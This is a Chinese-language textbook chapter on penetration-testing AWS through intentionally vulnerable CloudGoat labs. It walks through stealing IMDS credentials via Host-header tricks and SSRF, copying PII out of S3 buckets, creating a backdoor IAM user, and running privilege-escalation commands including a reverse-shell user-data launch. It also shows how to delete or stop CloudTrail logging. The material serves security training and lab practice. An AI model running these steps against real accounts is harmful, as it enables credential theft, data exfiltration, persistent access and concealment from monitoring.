


# 第八章：云安全漏洞利用

云采用显著改变了组织收集、处理和存储最终用户数据的方式。一些企业自动认为他们的云服务提供商会负责其网络安全，但每个云消费者，无论是个人还是企业，都必须意识到这是一个共享责任。话虽如此，大多数情况下，当测试人员成功获得内部网络访问权限时，他们认为测试几乎完成，假设他们可以继续入侵网络或企业。

在本章中，我们将探讨渗透测试人员如果进入云环境，可以利用的不同类型的攻击。特别是，我们将探讨 AWS，并识别多种绕过安全控制的过程，并使用 Kali Linux 中的工具演示这一过程。

本章结束时，你将学习如何通过以下主题攻击配置错误的云服务：

+   云服务的基本原则

+   EC2 实例中的漏洞扫描与应用利用

+   获取 AWS IAM 密钥

+   测试 S3 桶配置错误

+   利用安全权限漏洞

+   混淆 CloudTrail 日志

我们将探讨云服务的基本原则和不同的部署模型。

# 云服务介绍

云计算通常是指计算资源服务的按需提供，特别是为消费者提供的存储和计算能力。云计算的主要原则包括按需、 自助服务、广泛的网络访问、多租户、资源池化、弹性、可扩展性和计量服务。*表 8.1* 提供了云服务提供商提供的四种部署模型的详细信息。如果这些部署模型中的任何一种被成功利用并建立了通信连接，那么它将提供持续访问，从而实现渗透测试的目标：

| **部署模型** | **描述** |
| --- | --- |
| 私有云 | 仅为特定组织提供的独占云基础设施。类似于传统的数据中心，但托管在云上。 |
| 社区云 | 这是一个云基础设施，在具有共同兴趣的组织消费者之间共享。 |
| 公有云 | 为广大终端用户公众提供的云基础设施。 |
| 混合云 | 结合上述任意两种模型的云基础设施，通常是私有云与公有云、内部部署与私有云，或内部部署与公有云的组合。 |

表 8.1：云部署模型

在确定你可能需要在任何特定客户环境中执行的测试类型之前，理解以下基本的云服务模型非常重要：

| **服务模型** | **描述** |
| --- | --- |
| 软件即服务 | 在此服务中，云服务商提供软件给组织，组织按需付费。SaaS 云服务提供商的示例包括 Dropbox、G Suite、Microsoft Office 365、Slack 和 Citrix Content Collaboration。 |
| 平台即服务 | 在此服务中，云服务商提供硬件和软件给组织。常见的示例包括 AWS Elastic Beanstalk、Heroku、Windows Azure（主要作为 PaaS 使用）、Force.com、OpenShift 和 Apache Stratos。 |
| 基础设施即服务 | 在此服务中，主要提供存储、网络和虚拟化给组织，组织按需付费。示例包括 AWS EC2、Rackspace、**Google** **Compute Engine**（**GCE**）、Digital Ocean 等。 |

表 8.2：云服务模型

*图 8.1* 展示了如何根据服务模型的不同，安全责任发生变化：


图 8.1：云服务模型与责任

理解了基本概念后，我们现在将设置我们的 AWS 实验室，通过我们在*第一章*《基于目标的渗透测试》中安装的 CloudGoat AWS 部署工具来配置故意存在漏洞的实例。请注意，即使在部署了存在漏洞的实例后不使用 CloudGoat，使用 AWS 服务仍会产生费用。此外，这些实例将使您的云基础设施暴露于各种攻击。

访问这些云服务的场景甚至可能从初步的侦察阶段开始，在该阶段攻击者探索目标组织的所有 GitHub 仓库、pastebin 或任何数据转储网站，可能会获取访问密钥和密钥对。

以下是可用来配置和练习 AWS 特定攻击的 CloudGoat 选项。为了理解这些选项，测试人员可以在终端输入`docker run –it rhinosecuritylabs/Cloudgoat:latest`来运行 Docker 镜像，这将引导我们进入 CloudGoat shell，在这里我们运行`./cloudgoat help`，这将为我们提供如下五个选项，如*图 8.2*所示：


图 8.2：从 Docker 镜像运行 CloudGoat

收到与 Terraform 相关的错误信息，如`OSError: [Errno 8] Exec format error: "terraform" 或 "Terraform not found"`的测试人员，可以按照以下步骤，通过替换默认的 Terraform 为最新版本来解决此问题：

1.  运行`wget https://releases.hashicorp.com/terraform/1.0.10/terraform_1.0.10_linux_amd64.zip`

1.  解压`terraform_1.0.10_linux_amd64.zip`

1.  运行`mv /usr/bin/terraform terraform_old`

1.  运行`mv terraform /usr/bin/`

以下展示前四个选项的详细信息：

+   `config` – 此选项允许我们管理 CloudGoat 安装的不同方面，尤其是 IP 白名单和默认的 AWS 配置文件：

    +   `whitelist` – 建议测试人员始终将将要进行测试的 IP 地址列入白名单，因为在 AWS 基础设施中部署的资源可能存在漏洞。此命令将 IP 地址或 IP 地址范围存储在项目基础目录中的 `./whitelist.txt` 文件中。此外，您可以添加 `--auto` 参数，此工具将自动进行网络请求。使用 `curl ifconfig.co` 查找您的 IP 地址，然后使用结果创建白名单文件。

    +   `profile` – CloudGoat 默认需要手动配置 AWS 配置文件。运行此命令将提示测试人员输入配置文件详细信息，如 AWS 访问密钥和秘密密钥，并将它们存储在项目目录中的 `config.yml` 文件中。攻击者可以选择创建自己的 `config.yml` 文件。

+   `create` – 此选项将场景部署到 AWS 帐户。如果部署场景两次，CloudGoat 将销毁现有场景并创建新场景。

+   `list` – 这将显示所有已部署的场景、未部署的场景以及有关特定已部署场景的更多信息。

+   `destroy` – 这将关闭并删除 CloudGoat 创建的所有资源。

要将 CloudGoat 配置到特定配置文件，请在终端中运行 `./cloudgoat.py config profile <profilename>`：

```
./cloudgoat config profile masteringkali 
```

非常重要的一点是，我们需要将 AWS 资源配置为仅允许来自您连接的 IP 访问：

```
./cloudgoat.py config whitelist –auto 
```

在下一部分中，我们将部署一个易受攻击的 Web 应用程序，以在 AWS 中执行特定应用程序的利用。通过在终端中运行 `./cloudgoat create rce_web_app --profile masteringkali` 来实现。这将开始 CloudGoat 向您的 AWS 帐户部署云资源的过程，部署完成后，您应该能够看到包含云访问详细信息的确认信息，如 *图 8.3* 所示：

```
./cloudgoat.py create rce_web_app --profile masteringkali 
```


图 8.3: 使用 CloudGoat 和我们的 AWS 配置文件部署 rce_web_app

在完成 Web 应用程序及其支持资源的部署后，测试人员应该看到*图 8.4*，表示部署成功完成：


图 8.4: 漏洞设置成功部署

测试人员可以利用 CloudGoat 生成的访问密钥和秘密密钥对部署的场景进行渗透测试。作为传统步骤，测试人员可以利用漏洞扫描工具如 Scout Suite 或 Prowler。

# 在 EC2 实例中进行漏洞扫描和应用程序利用

第一步是通过在终端中运行 `sudo apt install awscli` 为我们的 Kali Linux 配备 AWS 客户端，然后我们可以利用工具了解当前 API 和秘密密钥的权限。

通过在终端中运行 `sudo aws configure --profile <profilename>` 来配置 AWS 配置文件。

在这种情况下，我们将在 Kali Linux 中配置这两个配置文件：

1.  为了演示目的，我们将更改建议的 `Lara` 配置文件名（见*图 8.4*），改为**RCE**（**远程代码执行**），并使用访问密钥和秘密密钥。

1.  我们将创建一个由 CloudGoat 推荐的 `mcduck` 配置文件，并使用在 CloudGoat 场景部署过程中生成的密钥。

    ```
    sudo aws configure –-profile <profilename> 
    ```

为了确认我们的配置文件是否正常工作，我们可以列出这些配置文件能够访问的**S3**（即亚马逊的**简单存储服务**）存储桶，通过运行以下命令，测试人员应该能够看到它们，正如*图 8.5*所示：

```
sudo aws s3 ls –-profile <profilename> 
```


图 8.5：在 Kali Linux 中配置 AWS 配置文件

攻击者可以利用自动化工具，如 Scout Suite 和 Prowler，快速了解错误配置/过度权限。

Scout Suite 是一个开源云安全审计工具，支持 AWS、GCP 和 Azure 等多云环境。此外，该工具目前正处于针对 Oracle 和阿里云的 alpha 版本阶段。此工具使用 Python 编写，利用公开的 API 收集配置信息，以提供给定云环境的攻击面。该项目由 NCC Group 积极维护，同时该工具也提供商业服务。可以通过克隆仓库并运行以下命令安装 Scout 至 Kali Linux：

```
sudo git clone https://github.com/nccgroup/ScoutSuite
cd ScoutSuite
sudo pip3 install –r requirements.txt
sudo ./setup.py install 
sudo scout aws --profile <profilename> 
```

*图 8.6*展示了在 AWS 上使用特定配置文件启动 Scout 安全审计工具的过程。



图 8.6：在 AWS 上使用我们的配置文件运行 Scout

扫描完成后，Scout 会在与运行工具相同的文件夹内创建一个 HTML 报告。测试人员将能够列出与所扫描配置文件相关的错误配置/漏洞。*图 8.7*展示了报告输出：


图 8.7：Scout 输出报告

后续小节详细描述了 AWS 的功能/选项和说明，帮助渗透测试人员理解他们应该关注的内容，如*图 8.8*所示：


图 8.8：Scout 报告中的详细 IAM 部分

**Prowler** 是另一款专门设计用于执行 AWS 检查的安全工具，涵盖了所有 AWS 区域和组的安全最佳实践。该工具还预构建了与各种基准（CIS、GDPR、HIPAA、PCI-DSS、ISO-27001、FFIEC、SOC2 等）的映射。此工具结合多种 Bash 脚本编写，利用已配置的配置文件的现有权限执行本地检查。可以通过克隆仓库并在终端运行以下命令将其安装到 Kali Linux 上：

```
sudo git clone https://github.com/toniblyx/prowler
cd prowler 
```

最新版本的 Prowler 是 v2.5.0。测试人员可以通过简单地运行`sudo ./prowler –p <profile name>`来验证扫描活动，如*图 8.9*所示：


图 8.9：从 Kali Linux 运行 Prowler 云安全工具

攻击者可以利用 AWS 命令行界面备忘单，链接地址为 [`www.bluematador.com/learn/aws-cli-cheatsheet`](https://www.bluematador.com/learn/aws-cli-cheatsheet)

让我们继续识别配置文件 RCE 中可用的实例列表，方法是在终端运行以下命令：

```
sudo aws ec2 describe-instances --profile <Profile Name> 
```

这应该提供如*图 8.10*所示的实例详细信息，包括公共和内部 IP 详情：


图 8.10：Scout 报告中的详细 IAM 部分

在实例的详细信息中（完整输出未显示在*图 8.10*中），我们可以看到公共 IP 被配置到特定的安全组。如果你从上述命令的输出中找到 `"RootDeviceType"`，它会指向 `"ebs"`，这意味着该 IP 地址不可公开访问。

下一步是通过在 Kali Linux 终端运行 `sudo aws elbv2 describe-load-balancers –-profile RCE` 来找出哪些负载均衡器配置了该设备：

```
sudo aws elbv2 describe-load-balancers --profile <Profile Name> 
```

EC2 负载均衡器的输出返回了特定的 DNS 名称，如*图 8.11*所示：


图 8.11：提取弹性负载均衡器的详细信息

最后，我们现在能够访问负载均衡器，如*图 8.12*所示。下一步是识别其他可用资源：


图 8.12：访问弹性负载均衡器的公共 DNS

接下来，我们将在终端运行 `sudo aws s3 ls –profile RCE` 来查找 S3 桶中我们配置文件的权限。此配置文件仅对 S3 桶中的日志文件夹具有访问权限，如*图 8.13*所示：


图 8.13：使用 RCE 配置文件访问 S3 桶

我们通过运行 `sudo aws s3 ls s3://<bucket>/pathofthefile --profile –-region us-east-1` 列出 S3 桶中的所有目录，并通过运行终端中的以下命令复制文件，如*图 8.14*所示：

```
sudo aws s3 cp s3://<bucket>/Path to the file>. --profile <Profile Name> --region us-east-1 
```


图 8.14：从 S3 桶复制日志文件

分析日志文件后，我们发现有多个请求的 HTTP 响应码是 `200`，并且每个请求都有一个唯一的 HTML 文件与之关联，如*图 8.15*所示：


图 8.15：分析日志文件并识别 URI

最后，访问该 URL 后将进入表单提交页面，该页面存在远程代码执行漏洞，测试人员现在可以在服务器上运行命令：


图 8.16：成功在服务器上执行命令

我们现在通过利用现有权限，查看实例、负载均衡器配置以及可以从 S3 存储桶访问的文件，成功地在 Web 应用程序上进行了远程代码执行。让我们尝试使用另一个配置文件（`mcduck`），了解如何进一步接管 AWS 环境中的运行中的 EC2 实例。测试人员可以运行`sudo aws ec2 describe-instances --profile mcduck --region us-east-1`来查看实例详细信息，如*图 8.17*所示：


图 8.17：使用 mcduck 配置文件识别实例

我们可以看到预留和实例的详细信息，包括`imageID`及其位置。在这些详细信息中，我们可以找到实例的公共 IP 地址和 DNS 名称，以及所有的网络和子网信息，如*图 8.18*所示：


图 8.18：识别实例的公共 IP 和公共 DNS

拥有公共 IP 的攻击者现在可以探索可能存在于 S3 存储桶中的任何密钥信息。要查看可访问的 S3 存储桶，请运行`sudo aws s3 ls ––profile ––region us-east-1`，然后复制文件夹类型`sudo aws s3 cp s3://bucket/folder/ ./keys ––profile mcduck ––region us-east-1`，如*图 8.19*所示：

```
sudo aws s3 cp s3://<bucket>/<folder>/ .<outputfolder> --profile <Profile Name> 
```


图 8.19：使用 mcduck 配置文件访问 S3 配置文件

现在，此配置文件仅能访问密钥库，我们已经将公钥和私钥复制到本地的 Kali Linux 中。下一步是通过运行`sudo chmod 400 cloudgoat`来更改私钥的文件权限，然后通过运行`ssh –i cloudgoat ubuntu@PublicIP`直接使用安全外壳登录 EC2 实例，如*图 8.20*所示：

```
sudo chmod 400 privatekey
sudo ssh –i privatekey Ubuntu@publicDNSofEC2 
```


图 8.20：从获得的私钥登录 AWS 实例

现在，我们可以获得 Ubuntu EC2 实例的内部访问权限，通过在远程系统的终端中直接访问`http://169.254.169.254/latest/user-data`来访问元数据服务：

```
curl http://169.254.169.254/latest/user-data 
```


图 8.21：访问 EC2 实例中的元数据服务

尝试使用用户名和密码登录`postgresql`以识别秘密密码：

```
psql postgresql://cgadmin:Purplepwny2029@<rds-instance>:5432/cloudgoat
\dt
select * from sensitive_information 
```


图 8.22：成功连接到数据库并访问数据库中的明文密码

在 EC2 实例中，我们现在可以检查哪些 S3 存储桶是可访问的。在访问存储桶之前，确保 Ubuntu 已安装`awscli`，可以通过在终端中运行`sudo apt-get install awscli`来安装，然后运行以下命令以查看最终目标，如*图 8.23*所示：

```
sudo aws s3 ls
sudo aws s3 ls s3://cg-secret-s3-bucket-cgid<uniqueID> --recursive
aws s3 cp s3://cg-secret-s3-bucket-cgidzay5e3vg5r/db.txt . 
cat db.txt 
```


图 8.23：从 S3 存储桶中提取数据库详细信息

最后一个重要步骤是通过返回到 CloudGoat Docker 镜像并运行`./cloudgoat.py destroy all`来销毁设置。你应该会看到确认信息，如*图 8.24*所示：


图 8.24：使用 CloudGoat 销毁 rce_web_app 云设置

我们已经探讨了 AWS 设置中的安全配置错误和易受攻击的 Web 应用程序。接下来，我们将探讨可以利用的不同方法，以便在下一节中利用 S3 桶。

# 测试 S3 桶的配置错误

S3 通常被组织用来存储文档、代码、文件上传等内容。通常，桶可以是公开的或私有的。公开时，所有用户都可以列出其中的内容；私有时，只有特定的用户可以列出其中的内容。尽管 S3 的漏洞一直是新闻关注的焦点，尤其是开发人员将关键任务信息存储在标记为“公开”的桶中。在本节中，我们将探讨如何识别 S3 桶以及利用配置错误来获取对内部 AWS 基础设施的访问权限。

为了练习 S3 桶配置错误，我们将通过在 CloudGoat Docker 镜像中运行以下命令来设置一个易受攻击的 S3 实例：

```
./cloudgoat create cloud_breach_s3 
```

一旦设置完成，测试人员应该能够从部署工具中看到包含 AWS 账户 ID 和目标 IP 地址的以下信息，如*图 8.25*所示：


图 8.25：使用 CloudGoat 成功创建 cloud_breach_s3 AWS 环境

识别外部 IP 上运行的内容后，攻击者可以选择对该 IP 进行端口扫描。在这种情况下，端口`80`是开放并可访问的：

1.  使用`curl http://<IP 地址>`命令访问 IP 地址。你将收到一个关于 EC2 元数据服务的错误信息，如*图 8.26*所示：

    图 8.26：访问公共 IP 地址

1.  云服务提供商确实有能力管理云消费者云原生应用程序中资源的凭证。如果正确执行，那么就可以避免将凭证存储为明文或在源代码库中存储。在 AWS 中，**实例元数据服务**（**IMDS**）提供有关给定实例的数据，可用于配置或管理正在运行的实例。AWS 使用`169.254.169.254` IP 地址返回托管的元数据服务。因此，我们将添加主机头，通过运行`curl http://<IP 地址> -H 'Host:169.254.169.254'`来检索目标 IP 的内容，这将返回网站根目录的内容，如*图 8.27*所示。攻击者可以选择使用 Burp Suite 拦截流量，并向请求中添加主机头，浏览文件夹和目录。

    图 8.27：成功访问带有元数据服务的 IP

1.  浏览完目录后，我们请求 `/latest/meta-data/iam/security-credentials/cg-bank-WAF-Role-cg<ID>` 文件，该文件返回 `AccessKeyID`、`secretAccessKey` 和会话令牌，如 *图 8.28* 所示。会话令牌表明凭证是基于时间的。然而，如果测试者遇到 IMDS v2，则需要额外的令牌来获取凭证：

    图 8.28：成功生成凭证，使用 AWS 元数据服务

1.  下一步是根据上述信息为我们的 Kali Linux 配置 AWS 配置文件，如 *图 8.29* 所示：

    ```
    sudo aws configure -–profile S3exploit 
    ```

    

    图 8.29：在 Kali Linux 中为 S3 漏洞创建新配置文件

1.  配置好配置文件后，我们将继续通过编辑 AWS 凭证文件来添加会话令牌。该文件的默认位置是 `~/.aws/credentials`。在我们的案例中，我们通过 `sudo` 运行所有 `aws` 命令，因此所有凭证和其他详细信息将存储在 root 用户下。我们将使用最喜欢的编辑器编辑位于 `/root/.aws/credentials` 的文件：

    ```
    sudo nano /root/.aws/credentials 
    ```

    如 *图 8.30* 所示，添加在 *步骤 3* 中获得的 `aws_session_token`：

    

    图 8.30：将 aws_session_token 添加到凭证文件中

1.  现在，下一步是通过在终端运行以下命令来检查我们是否能够访问 S3 桶：

    ```
    sudo aws s3 list –-profile S3exploit 
    ```

1.  从上一步骤开始，我们现在可以通过运行 *图 8.31* 中显示的命令，将 S3 桶的内容下载到本地主机：

    ```
    sudo aws s3 sync s3://<Name of the bucket> ./newfolder –profile S3exploit 
    ```

    

    图 8.31：将 S3 桶内容复制到本地系统

1.  我们现在已经利用配置错误的 S3 桶，成功从目标组织外泄数据。你现在应该能够查看包含所有 **个人身份信息** (**PII**) 的持卡人数据，如 *图 8.32* 所示：

    图 8.32：复制的数据内容，包括个人身份信息

1.  最后一步是回到 CloudGoat Docker 镜像，确保销毁已创建的实例，以避免任何意外的暴露给真实攻击者或来自 Amazon 的账单费用，通过在 Docker 镜像内运行以下命令：

    ```
    ./cloudgoat destroy cloud_breach_s3 
    ```

理解 S3 中的配置错误可能导致数据外泄。如果用户权限配置错误会怎样？我们将在下一部分探讨这一问题。

# 利用安全权限缺陷

以下是 AWS 云服务中最常见的漏洞：

+   **过多的公共子网** – 大多数组织使用 AWS 中内置的默认 **VPC**（**虚拟私有云**）功能，在使用 AWS 服务时很少进行更改，采用的是一种简便的方法。然而，这种方法在许多案例中已经证明是危险的（一个例子是基于僵尸网络的加密勒索软件）。公共子网对互联网上的任何人开放，可能会暴露一些本不应公开的信息。

+   **IAM**（**身份和访问管理**）问题，出现在那些未为高权限账户启用双因素或多因素认证，并且几乎所有事务都使用同一个账户的组织中，这种做法使得所有新账户具有相同的访问权限，从而使其面临风险。曾经发生过员工账户通过电子邮件钓鱼攻击被入侵，导致了大规模的勒索软件攻击，给组织带来的损失几乎相当于重建整个公司的费用。

+   **配置错误的 S3 桶** – 在前一节中，我们探讨了 S3 桶权限配置错误的问题。这是云渗透测试中最常见的主题之一。尽管桶默认是私有的，但有时 IT 操作/开发团队或管理这些基础设施的第三方会将其设置为公开。这就使得桶面临不可避免的威胁，攻击者可能会发现配置错误的 S3 桶，获取其中的敏感信息，如私钥或无人管理的文件，包括备份或日志文件。

+   **源服务器** – 大多数云服务提供商利用 **内容分发网络**（**CDN**）将内容分发给高流量客户。大多数情况下，这些配置错误，泄露了源服务器的地址。我们的一位渗透测试人员举了一个例子，说明这种泄漏如何导致安全漏洞。在渗透测试中，发现源服务器并直接攻击其漏洞，甚至通过暴力破解风格的攻击接管数据库并不罕见。

+   **SSRF**（**服务器端请求伪造**）– 这是一种攻击手段，可以利用合法的 AWS 功能来获取元数据，并且如果成功利用，攻击者可以检索到有效的 IAM 角色用户凭证。在本节中，我们将探讨这种攻击。

+   **DNS 记录** – 在初步侦察阶段，攻击者通常可以通过组织的子域名轻松识别出 S3 桶的详细信息。问题出现在操作团队未能及时更新 DNS 记录，或者令人惊讶的是，甚至会退役一些无人管理的 S3 桶，而这些桶仍然处于开放状态，任何人都可以通过互联网访问。

综合以上信息，我们将设置 CloudGoat，创建一个有漏洞的 AWS 部署环境，在这里我们将通过执行 SSRF 攻击来利用 AWS 的合法功能。以下是执行此攻击的逐步说明：

1.  通过返回 CloudGoat Docker 镜像并在终端运行`./cloudgoat.py create ec2_ssrf --profile masteringkali`来部署易受攻击的 AWS 设置，这将设置基础设施并提供以下确认，包括访问 ID 和密钥对：

    图 8.33：使用 CloudGoat 创建 ec2_ssfr AWS 环境

1.  在 Kali Linux 中创建 AWS 配置文件，通过运行`sudo aws configure ––profile ssrf`，如*图 8.34*所示，并输入`Access Key ID`和`Secret Access Key`：

    图 8.34：在 Kali Linux 中配置 AWS 配置文件

1.  我们可以通过运行`enumerate-iam`工具来列举访问密钥的权限，首先通过`sudo git clone https://github.com/andresriancho/enumerate-iam`从 Git 直接克隆，然后运行`cd enumerate-iam`。接着，通过运行`sudo pip3 install –r requirements.txt`来安装所需的包。一旦完成，我们可以通过输入`sudo python3 enumerate-iam.py ––access-key xx ––secret-key xx`来运行 enumerate 工具，如*图 8.35*所示。这将提供如关联用户、账户 ID 以及其他服务列表等详细信息。

    图 8.35：使用 enumerate-iam.py 列举 AWS 账户的访问和密钥对

1.  让我们通过运行`sudo aws lambda list-functions ––profile ssrf ––region us-east-1`来探索该 ID 可以访问的 lambda 函数，这将为我们提供一个可访问的 lambda 函数列表，如*图 8.36*所示：

    图 8.36：AWS Lambda 中可用的函数列表，该列表对该配置文件可用

    用户在运行上述命令时可能会遇到错误信息：`An error occurred (InvalidSignatureException) when calling the ListFunctions operation: Signature expired`。这是由于时间问题。建议测试人员在终端运行`sudo apt install ntpupdate`和`sudo ntpdate pool.ntp.org`。

1.  Lambda 正在暴露访问密钥和密钥对。让我们通过在终端运行`sudo aws lambda get-function –function-name cg-lambda-cg<randomid> --profile ssrf –region us-east-1`来获取有关特定函数的更多信息。这样应该会返回有关此 lambda 函数的更详细信息：

    图 8.37：AWS 中特定 lambda 函数的完整详细信息

1.  我们现在将使用从 lambda 函数获得的密钥配置我们的 Kali Linux，并将其命名为`lambda-solus`，如*图 8.38*所示：

    图 8.38：在 AWS 中配置 AWS 配置文件，用于从 lambda 函数中获取的新访问密钥

1.  通过运行`sudo aws ec2 describe-instances –region us-east-1 –profile lambda-solus`，让我们来查看该配置文件可用的实例。这样应该会列出实例的详细信息以及公共 IP 地址，如*图 8.39*所示：

    图 8.39：通过 lambda-solus 配置文件访问云实例详情

1.  一旦我们获得了公共 IP 地址，就可以通过端口 `80` 访问实例，你应该能够在服务器上看到*图 8.40*中的错误信息：

    图 8.40：访问公共 IP 上的 Web 服务器

1.  攻击者可以选择在 IP 地址上运行任何类型的扫描器，例如 Nikto 或 OWASP ZAP。当攻击者能够欺骗 Web 应用程序代表他们向特定 URL 发出 HTTP 请求时，该应用程序就容易受到 SSRF 攻击。在我们的案例中，将`/?url=<attacker controlled URL>`添加到 IP 地址后，我们就能控制 Web 应用程序代表我们发出 HTTP 请求。让我们利用该应用程序调用元数据 API，通过将 URL `http://168.254.169.254/latest/meta-data/iam/security/security-credentials/<Nameofthefile>`添加到*图 8.41*所示的参数中，来获取凭证，这将检索可以被测试者利用的临时凭证：

    图 8.41：对 Web 应用程序执行 SSRF 攻击以检索临时凭证

1.  通过运行`sudo aws configure –profile ec2-temp`在 Kali Linux 中配置 AWS 配置文件，如*图 8.42*所示，并确保`aws_session_token`已添加到`aws credentials`文件中，然后通过运行`sudo aws s3 ls –profile ec2-temp`访问 S3 存储桶。这将列出名为`cg-secret-s3-bucket-<randomid>`的存储桶：

    图 8.42：列出使用临时凭证的 S3 存储桶

1.  通过运行`sudo aws s3 sync s3://<bucketname><folder><file> location –profile`下载此存储桶的全部内容，如下图所示。耶！我们现在从该存储桶获取了高权限用户的访问详情。这类似于在内部渗透测试中获取域管理员权限：

    图 8.43：下载秘密并使用管理员配置文件配置 Kali Linux

1.  在 Kali Linux 中使用`ec2-admin`配置文件配置 AWS 后，攻击者现在可以在 EC2 环境中执行任何操作。例如，我们现在可以通过运行`sudo aws iam list-users –profile ec2—admin`来查看所有用户，如*图 8.44*所示：

    图 8.44：从管理员配置文件列举用户

1.  通过运行`sudo iam list-attached-user-policies –username <nameofuser> --profile ec2-admin`来查看与用户相关联的策略，如*图 8.45*所示：

    图 8.45：访问用户附加的策略

    请注意，以下两步仅用于演示如何使用命令行创建 `aws iam` 访问密钥和用户。测试人员必须意识到，如果这些步骤在 CloudGoat 部署的 AWS 环境中执行，那么销毁实例将变得不可能，因为 CloudGoat 只能删除它通过脚本创建的实例。

1.  现在，你应该能够通过运行 `sudo iam create-access-key –username <Username> --region us-east-1 –profile ec2-admin` 来更改任何用户的密钥：

    图 8.46：为用户创建新的访问密钥

1.  此外，你可以通过运行 `sudo aws iam create-user –username backdoor –profile ec2-admin` 创建一个新用户作为访问环境的后门，并且应该能够看到新用户被创建，附带一个访问密钥和一个密钥访问密钥，如 *图 8.47* 所示：

    图 8.47：为后门访问创建新用户

1.  测试人员现在可以返回 CloudGoat Docker 镜像，并通过在终端运行 `./cloudgoat.py destroy all` 来销毁 AWS 设置。

*表格 8.3* 提供了渗透测试人员在 AWS 渗透测试过程中可以利用的有用命令参考：

| **描述** | **命令参考** |
| --- | --- |
| 创建一个新的策略版本 | `aws iam create-policy-version –policy-arn target_policy_arn –policy-document file://path/to/ /policy.json –set-as-default` |
| 设置默认策略版本为现有版本 | `aws iam set-default-policy-version –policy-arn target_policy_arn –version-id v2` |
| 使用现有实例配置文件创建 EC2 实例 | `aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-profile Name=iam-full-access-ip –key-name my_ssh_key –security-group-ids sg-123456``aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-profile Name=iam-full-access-ip –user-data file://script/with/reverse/shell.sh` |
| 创建一个新的用户访问密钥 | `aws iam create-access-key –user-name target_user` |
| 创建一个新的登录配置文件 | `aws iam create-login-profile –user-name target_user –password '&#124;[3rxYGGl3@'~68)O{,-$1B"zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;&#124;,lyTKOLG7J[qH$LV5U<9'O~Z",jJ[iT-D^(' –no-password-reset-required` |
| 更新现有登录配置文件 | `aws iam update-login-profile –user-name target_user –password '&#124;[3rxYGGl3@'~68)O{,-$1B"zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;&#124;,lyTKOLG7J[qH$LV5U<9'O~Z",jJ[iT-D^(' -–no-password-reset-required` |
| 附加策略到用户组角色 | `aws iam attach-user-policy –user-name my_username –policy-arn``arn:aws:iam::aws:policy/AdministratorAccess aws iam attach-group-policy –group-name group_i_am_in –policy-arn arn:aws:iam::aws:policy/AdministratorAccess``aws iam attach-role-policy –role-name role_i_can_assume –policy-arn arn:aws:iam::aws:policy/AdministratorAccess` |
| 创建/更新用户组角色的内联策略 | `aws iam put-user-policy –user-name my_username –policy-name my_inline_policy –policy-document file://path/to/policy.json``aws iam put-group-policy –group-name group_i_am_in –policy-name group_inline_policy –policy-document file://path/to/policy.json>``aws iam put-role-policy –role-name role_i_can_assume –policy-name role_inline_policy –policy-document file://path/to/policy.json` |
| 将用户添加到组中 | `aws iam add-user-to-group –-group-name target_group –-user-name username` |
| 更新角色的 `AssumeRolePolicyDocument` | `aws iam update-assume-role-policy –role-name role_i_can_assume –policy-document file://path/to/assume/role/policy.json` |
| 更新现有 Lambda 函数的代码 | `aws lambda update-function-code -–function-name target_function –zip-file fileb://my/lambda/code/zipped.zip` |

表 8.3：渗透测试期间有用的 AWS 命令

# 混淆 CloudTrail 日志

CloudTrail 是亚马逊提供的一个服务，用于监控用户执行的所有操作。假设攻击者现在拥有高度特权的环境访问权限，他们将能够通过执行以下操作来修改设置：

1.  通过运行 `sudo aws cloudtrail describe-details –profile <profile name>` 来识别 CloudTrail 详情。

1.  攻击者可以选择通过运行 `sudo aws cloudtrail delete-trail --name cloudgoat_trail --profile <Profile name>` 来删除日志轨迹。

1.  或者，他们可以通过运行 `sudo aws cloudtrail stop-logging --name cloudgoat_trail --profile <Profile name>` 来停止日志记录。然而，这将触发 GuardDuty（AWS 内部的威胁检测服务）关于日志未被捕捉的警报。

我们已经通过一些实际例子探讨了云渗透测试的关键方面。渗透测试人员应始终将任何云基础设施视为内部/外部范围的一部分，以确保达成测试目标。

# 总结

在本章中，我们快速浏览了不同类型的云服务及其面临的攻击。我们深入探讨了 AWS 特有的安全配置错误，特别是通过负载均衡器日志利用远程 Web 应用程序漏洞，并利用配置错误的 S3 存储桶访问内部 EC2 实例。此外，我们还利用实例的权限获取了数据库凭证，并探索了元数据服务头注入攻击。我们学习了如何通过 SSRF 攻击在 AWS 环境中创建后门用户。然后，我们研究了一些在 AWS 渗透测试中可以利用的有用命令行功能。

在下一章中，我们将更专注于如何绕过**网络访问控制**（**NAC**）和杀毒软件、**用户帐户控制**（**UAC**）以及 Windows 操作系统控制。我们还将探讨诸如 Veil 框架和 Shellter 等工具集。
